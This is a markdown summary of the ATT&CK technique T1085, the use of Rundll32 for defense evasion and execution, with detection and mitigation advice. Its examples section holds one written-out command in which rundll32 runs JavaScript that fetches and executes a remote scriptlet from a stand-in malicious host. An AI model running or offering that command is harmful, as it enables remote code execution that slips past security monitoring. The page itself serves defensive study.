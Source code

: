 # T1085 - Rundll32

## Attributes
**Tactics**: Defense Evasion, Execution
**Effective Permissions**: User
**Data Sources**: File monitoring, process monitoring, process command-line parameters, binary file metadata

## Description

Rundll32.exe is a program on Windows that can be called to execute arbitrary binary. Adversaries are able to take advantage of these features to execute code through Rundll32 and avoid triggering any security tools that most likely do not monitor execution of Rundll32 processes as Windows uses it for normal operations. 

## Tools to Perform Attack
Rundll32.exe

### Examples
Rundll32.exe can be used to execute Control Panel Item files (.cpl) through the undocumented shell32.dll functions `Control_RunDLL` and `Control_RunDLLAsUser`. Double-clicking a .cpl file also causes rundll32.exe to execute.
Rundll32 can also been used to execute scripts such as JavaScript. This can be done using a syntax similar to this: `rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"` This behavior has been seen used by malware such as Poweliks.



## Detection

Use process monitoring to monitor the execution and arguments of rundll32.exe. Compare recent invocations of rundll32.exe with prior history of known good arguments and loaded DLLs to determine anomalous and potentially adversarial activity. Command arguments used with the rundll32.exe invocation may also be useful in determining the origin and purpose of the DLL being loaded.

## Mitigation
[](https://attack.mitre.org/mitigations/M1050)

Microsoft's Enhanced Mitigation Experience Toolkit (EMET) Attack Surface Reduction (ASR) feature can be used to block methods of using rundll32.exe to bypass whitelisting.

## References

- **References to all articles go here**
  - [https://attack.mitre.org/techniques/T1085/](https://attack.mitre.org/techniques/T1085/)